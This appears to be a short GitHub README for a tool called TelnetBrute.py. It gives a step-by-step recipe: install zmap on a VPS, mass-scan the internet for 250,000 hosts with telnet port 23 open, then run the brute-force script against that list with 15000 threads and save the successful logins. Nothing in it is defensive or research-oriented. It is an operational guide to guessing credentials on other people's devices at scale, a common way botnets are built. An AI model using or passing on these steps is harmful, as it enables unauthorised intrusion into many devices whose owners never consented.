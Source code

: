 [VPS CentOS 6.9/6.8] (Recomendado)

- Install zmap

1- sh CentOS_zmap_auto_install.sh OR Debian_zmap_auto_install.sh

- Scan Telnet Ips

1- ulimit -n 999999

2- zmap -p23 -o mfutelnet.txt -N 250000   

   1,5-(optional)  zmap -p23 -o mfutelnet.txt -w telnet.lst  

- Bruteforce 

2- ulimit -n 999999

3- python TelnetBrute.py mfutelnet.txt 15000 telnettest.txt    




<img src="https://raw.githubusercontent.com/XeljomudoX/TelnetBrute.py/master/lul.png">



Video: https://www.youtube.com/embed/ZOCRpKSFLfs
